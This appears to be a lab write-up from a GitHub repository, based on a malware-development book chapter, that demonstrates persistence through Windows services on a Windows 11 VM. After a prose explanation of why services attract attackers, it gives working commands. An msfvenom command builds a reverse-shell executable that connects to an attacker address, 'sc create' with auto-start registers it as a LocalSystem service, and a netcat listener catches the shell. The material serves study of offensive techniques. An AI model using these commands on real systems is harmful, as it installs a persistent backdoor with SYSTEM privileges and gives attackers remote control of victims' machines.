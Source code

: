 # Info
`Windows 11 VM` is used in this case.

## The Role of Windows Services in Facilitating Hacking Activities
Windows Services are integral to the functioning of the Windows operating system, but they can also be exploited by attackers due to several characteristics that make them valuable targets for hacking activities.

## Network Functionality and Remote Operation
One of the key aspects of Windows Services is their ability to operate seamlessly over network connections. The Services API was specifically designed to support network functionality, allowing services to interact efficiently with remote systems. This capability makes services an attractive target for attackers who seek to execute malicious code remotely. By exploiting vulnerabilities in network-exposed services, attackers can gain access to a system and execute commands with the same privileges as the service.

## Automatic Startup and High Privileges
Windows Services typically start automatically when the system boots, which is a significant advantage for attackers seeking persistence. Once a malicious service is installed, it will continue to run every time the system is restarted, ensuring the attacker maintains access (Microsoft Docs, 2023). Additionally, many services run with elevated privileges, often with System or Administrator-level rights. This means that any code executed by a compromised service can have unrestricted access to the system, including the ability to modify critical files, change system settings, and create or delete user accounts.

## Privilege Management and Access Control
Managing Windows Services requires elevated privileges, which restricts unprivileged users from making changes or creating new services. However, this security measure does not entirely prevent exploitation. Attackers who manage to gain administrator access can create or modify services to achieve persistence or escalate privileges (Microsoft Docs, 2023). The requirement for administrator credentials to create a new service makes it less of a stealthy method for achieving persistence compared to other techniques, but it remains a powerful tool in the hands of an attacker with sufficient access.

## Misconfiguration Risks
Incorrectly configured services can pose significant security risks. Misconfigurations may lead to privilege escalation, where an attacker exploits a service running with elevated privileges to gain higher access rights than initially intended. Moreover, services can be configured or exploited to serve as a persistent backdoor into the system, allowing attackers to maintain their foothold even after system reboots or user logouts (SANS Institute, 2023). Given that this aspect of Windows Services has remained largely unchanged for over two decades, it continues to be a relevant attack vector in modern cyber threats.


---

# Step 1. Reverse Shell
Create a reverse shell with the command below. <br>
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4445 -f exe > meow.exe
```
![](./screenshots/01.png)

```bash
x86_64-w64-mingw32-g++ -O2 meowsrv02.c -o meowsrv.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

# Step 2.

```bash
sc create MeowService binpath= "C:\\Users\\<USER_NAME>\\Documents\\Mal\\ch3\\005\\meowsrv.exe" start= auto
```

```bash
sc query MeowService
```
![](./screenshots/06.png)

Check the `MeowService` in `System Informer`. <br>
![](./screenshots/07.png)

Check the properties. <br>
![](./screenshots/08.png)

## LocalSystem Account
The **LocalSystem** account is a preconfigured local account used by the Service Control Manager in Windows. It has extensive privileges on the local computer, enabling it to act as the system's representative within the network. The security token for this account includes the **security identifiers (SIDs)** `NT AUTHORITY\SYSTEM` and `BUILTIN\Administrators`, which provide it with privileged access to most system objects. The account is universally recognized across all locales under the name `.\LocalSystem`. Alternatively, it can be referred to as **LocalSystem** or **"Computer Name"\LocalSystem**. Notably, the LocalSystem account does not require a password.

```bash
sc start MeowService
```
![](./screenshots/05.png)

Now

```bash
nc -nlvp 4445
```
![](./screenshots/10.png)


---

# References
- Zhassulan Zhussupov (2024) Chapter 3 - Malware Persistence Mechanisms , [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers). Available from: https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers [Accessed 09 August 2024].

- Microsoft Docs (2023a) Services Overview. Available from: https://learn.microsoft.com/en-us/windows/win32/services/services [Accessed 9 August 2024].

- Microsoft Docs (2023b) Managing Services with Service Control Manager. Available from: https://learn.microsoft.com/en-us/windows/win32/services/service-control-manager [Accessed 9 August 2024].

- SANS Institute (2023) Windows Privilege Escalation Fundamentals. Available from: https://www.sans.org/white-papers/windows-privilege-escalation-fundamentals/ [Accessed 9 August 2024].
